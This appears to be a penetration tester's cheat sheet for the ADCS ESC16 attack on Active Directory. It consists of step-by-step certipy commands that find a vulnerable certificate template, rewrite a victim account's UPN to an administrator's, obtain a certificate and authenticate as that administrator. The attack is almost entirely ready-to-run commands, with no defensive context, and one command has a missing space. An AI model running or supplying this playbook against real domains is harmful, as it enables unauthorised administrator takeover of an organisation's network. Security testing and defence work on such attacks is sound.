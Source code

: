 # ADCS ESC16

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Read Victim User (optional)
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -user '<VICTIM>' read
```

## 3. Update Victim User
```
certipy account-u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -upn '<ADMIN_USER>' -user '<VICTIM>' update
```

## 3a. Shadow Credentials (if needed)
```
certipy shadow -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -account '<VICTIM>' auto
```
## 4. Export Ticket
```
export KRB5CCNAME=<USERNAME>.ccache
```

## 5. Request certificate
```
certipy req -k -dc-ip '<DC_IP>' -target '<CA_FQDN>' -ca '<CA_HOST>' -template 'User'
```
## 6. Revert Victim User
```
certipy account -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -upn '<VICTIM>@<domain>' -user '<VICTIM>' update
```

## 7. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP> -domain <domain>
```

